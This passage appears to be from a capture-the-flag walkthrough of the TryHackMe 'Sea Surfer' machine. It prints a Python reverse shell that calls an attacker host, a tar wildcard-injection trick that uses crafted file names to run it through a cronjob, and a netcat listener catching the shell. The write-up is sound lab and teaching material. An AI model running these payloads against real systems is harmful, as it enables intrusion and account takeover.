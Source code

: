 ```zsh
www-data@seasurfer:/var/www/internal/maintenance$ cd ../invoices
www-data@seasurfer:/var/www/internal/invoices$ echo $'/usr/bin/python3 -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"$ATTACKERIP\",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/sh\")\'' > shell.sh
www-data@seasurfer:/var/www/internal/invoices$ echo "" > "--checkpoint-action=exec=sh shell.sh"
www-data@seasurfer:/var/www/internal/invoices$ echo "" > --checkpoint=1
```

Now the `cronjob` running every minute should execute as such:

```zsh
tar -zcf /home/kyle/backups/invoices.tgz --checkpoint=1 '--checkpoint-action=exec=sh shell.sh' receipt1.pdf receipt2.pdf 
```

After we wait for a minute, a shell pops into our listener:

```zsh
lassi@kali:~$ nc -lvnp 1337  
listening on [any] 1337 ...
connect to [$ATTACKERIP] from (UNKNOWN) [$TARGETMACHINEIP] 55564
$ whoami
kyle
$ cat /home/kyle/user.txt
THM{REDACTED}
```

Great. First things first, let's get away from this horrible pseudoterminal reverse shell.

(pending an update of the box in THM - as of now, just input your own key into authorized_keys)
**Kyle** seems to have left an `SSH` private "testkey" in their `.ssh` folder - and we can use it to `SSH` into the box as `kyle`.

Afterwards, it's probably best to remove the wildcard payloads to keep the machine from spawning multiple reverse shells which freeze, as this will likely kill the server's performance over enough time. 

### root, method 1

Running our favourite enumeration script **LinPEAS** didn't catch any low hanging fruits such as `SUID` files or editable `root cronjobs`. However, there are a few of things that caught our attention.

First, there is a weird `sudo` command running:

```zsh
kyle        1033  0.0  0.2   6892  2348 pts/0    Ss+  08:06   0:00 bash -c sudo /root/admincheck; sleep infinity
```

Second, `kyle` is in the `sudo` group, but we don't know the password:

```zsh
kyle@seasurfer:~$ groups
kyle adm cdrom sudo dip www-data plugdev
kyle@seasurfer:~$ sudo -l
[sudo] password for kyle:
```
